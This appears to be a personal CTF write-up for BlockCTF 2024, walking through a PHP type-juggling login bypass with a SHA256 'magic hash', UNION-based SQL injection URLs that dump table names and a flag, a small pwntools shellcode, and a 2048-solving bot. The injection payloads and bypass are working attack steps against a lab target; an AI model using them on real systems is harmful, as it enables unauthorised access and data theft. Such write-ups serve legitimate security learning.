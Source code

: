 +++
date = '2024-11-15T23:01:28+01:00'
draft = false
title = 'BlockCTF 2024 - WriteUp'
author = 'TheMrEviil'
categories = ['writeups']
+++

## WEB: Juggl3r

Description:
```
Juggl3r
200
The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?

http://54.85.45.101:8080/
```
This challange remember me why i lovd PHP and the same i hate it. When we go on website we have only login page with attempt 5 minut. 
In requests we find version PHP and Apache. Well... lets mix some params in request. When we set username `admin` and  `password[]=1` server response `` Warning: hash() expects parameter 2 to be string, array given in /var/www/html/login.php on line 36` 

This information give a lot of things + challange name Juggl3r. In PHP 7.4 we have some thing like type juggling. It's not good logic to equal variables example:
'123' == 123 : TRUE

but in warning we have information about `hash()` function let's check magic hash. Concept takes advantage of this behavior by using special strings that, when compared to each other with ==, are evaluated as equal to each other (even though they may seem different). In particular, it uses strings that PHP will interpret as a number 0 during comparison.

For example:

"0e12345" == "0" is true because "0e12345" is interpreted as 0.

Popular hashes in PHP are MD5, SHA256 

SHA256:
`34250003024812:0e46289032038065916139621039085883773413820991920706299695051332`


and we got admin. 
Next step in url we can change user_id parameter. but not interesting, but when i add -- we have SQL Syntax ERROR . AWESOME 

now we add a little bit SQL 
`http://54.85.45.101:8080/admin.php?user_id=NULL%20union%20select%201,%20table_name,%201%20FROM%20information_schema.tables%20LIMIT%201%20OFFSET%2083--`

and set user_id=NULL because we need spot to display query result. When we have table name `flags` get column name

`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, COLUMN_NAME, 1 FROM information_schema.columns WHERE table_name = 'flags' LIMIT 1 OFFSET 0--`

now we can read flag
`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, flag, 1 FROM flags WHERE id = 1--`

and gg `flag{juggl3_inject}`


## PWN: Only Ws

Description:
```
Only Ws
50
The flag is write there. All you have to do is get it.

nc 54.85.45.101 8005
```

When we connect to netcat we have flag address. Write some asm with the best friend ChatGPT
```
from pwn import asm, context

context.arch = 'amd64'

shellcode = asm("""
    mov rax, 1
    mov rdi, 1
    mov rsi, 0x4040a0
    mov rdx, 64
    syscall
    mov rax, 60
    xor rdi, rdi
    syscall
""")

with open("payload1", 'wb') as f:
    f.write(shellcode)
print(shellcode)

```

ok, now we can send a payload to nc and get flag
`flag{kinda_like_orw_but_only_ws}`

## MISC: 2048 ai

Description:

```
2048 ai
150
Can you speedrun 2048?

nc 54.85.45.101 8006
```

Code:
```
import time
import sys
import ctypes
import math
import os
import random
import pwn
from pwn import cyclic_find

pwn.context.log_level = 'debug'

def to_c_board(m):
    board = 0
    i = 0
    for row in m:
        for c in row:
            board |= int(round(math.log(c, 2))) << (4 * i) if c > 0 else 0
            i += 1
    return board

def movename(move):
    return ['w', 's', 'a', 'd'][move]

def find_best_move_for_4x4(board):
    if len(board) != 4 or any(len(row) != 4 for row in board):
        raise ValueError("Input must be a 4x4 matrix.")
    
    c_board = to_c_board(board)
    move = ailib.find_best_move(c_board)

    if move < 0:
        return "No moves available"
    return movename(move)

def parse_board_state(response):
    board_state = []
    lines = response.splitlines()[1:]
    for line in lines[:4]:  # Process only the first 4 lines for rows
        row = [int(x) for x in line.split() if x.isdigit()]
        # Pad row with zeros if less than 4 elements
        while len(row) < 4:
            row.append(0)
        board_state.append(row)

    while len(board_state) < 4:
        board_state.append([0, 0, 0, 0])
    
    return board_state

# Initializing the AI library
for suffix in ['so', 'dll', 'dylib']:
    dllfn = '2048-ai/bin/2048.' + suffix
    if os.path.isfile(dllfn):
        ailib = ctypes.CDLL(dllfn)
        break
else:
    print("Couldn't find 2048 library bin/2048.{so,dll,dylib}! Make sure to build it first.")
    sys.exit()

ailib.init_tables()
ailib.find_best_move.argtypes = [ctypes.c_uint64]

# Example board state
board_state = [
    [0, 0, 0, 0],
    [2, 0, 0, 0],
    [2, 0, 0, 0],
    [0, 0, 0, 0]
]


p = pwn.remote('54.85.45.101',8006)

last_moves = []
while True:
    response = p.recvuntil(b"Enter command(s) (w/a/s/d for movement, q to quit):", timeout=3).decode("UTF-8")
    
    
    if "Congratulations" in response or "Over" in response:
        print(response)
        sys.exit()
    
    board_state = parse_board_state(response)
    print("Stan planszy:", board_state)  
    
    move = find_best_move_for_4x4(board_state)
    print('move', move)
    if move == "No moves available":
        print("No valid moves left. Exiting.")
        sys.exit()
    
    last_moves.append(move)
    p.sendline(move.encode('utf-8'))

```


And we have `flag{f4st3r_th4n_hum4nly_p0ssibl3}`

We finish CTF on #19 :) 

Bye 